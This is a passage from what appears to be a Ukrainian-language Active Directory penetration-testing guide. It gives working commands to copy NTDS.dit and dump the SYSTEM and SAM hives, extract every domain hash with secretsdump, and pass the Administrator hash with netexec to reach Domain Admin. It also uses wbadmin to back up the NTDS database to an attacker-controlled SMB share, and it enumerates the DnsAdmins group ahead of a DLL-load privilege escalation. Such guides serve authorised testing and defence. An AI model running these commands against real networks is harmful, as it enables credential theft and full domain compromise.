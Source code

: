 ```cmd
```
Як альтернативу, використовуйте `robocopy` для копіювання файлів:
```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```
3. Витягніть `SYSTEM` і `SAM` для отримання хешів:
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
4. Отримати всі хеші з `NTDS.dit`:
```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
5. Після вилучення: Pass-the-Hash до DA
```bash
# Use the recovered Administrator NT hash to authenticate without the cleartext password
netexec winrm <DC_FQDN> -u Administrator -H <ADMIN_NT_HASH> -x "whoami"

# Or execute via SMB using an exec method
netexec smb <DC_FQDN> -u Administrator -H <ADMIN_NT_HASH> --exec-method smbexec -x cmd
```
#### Використання wbadmin.exe

1. Налаштуйте NTFS-файлову систему для SMB‑сервера на машині атакуючого і збережіть SMB‑облікові дані на цільовій машині.
2. Використайте `wbadmin.exe` для резервного копіювання системи та вилучення `NTDS.dit`:
```cmd
net use X: \\<AttackIP>\sharename /user:smbuser password
echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
wbadmin get versions
echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

For a practical demonstration, see [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).

## DnsAdmins

Члени групи **DnsAdmins** можуть зловживати своїми привілеями, щоб завантажити довільну DLL з привілеями SYSTEM на DNS‑сервер, який часто розміщується на контролерах домену. Це дає значний потенціал для експлуатації.

Щоб перелічити учасників групи DnsAdmins, використайте:
```bash
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```
### Execute arbitrary DLL (CVE‑2021‑40469)

> [!NOTE]
> Ця вразливість дозволяє виконувати довільний код з привілеями SYSTEM у службі DNS (зазвичай всередині DCs). Цю проблему виправили в 2021 році.
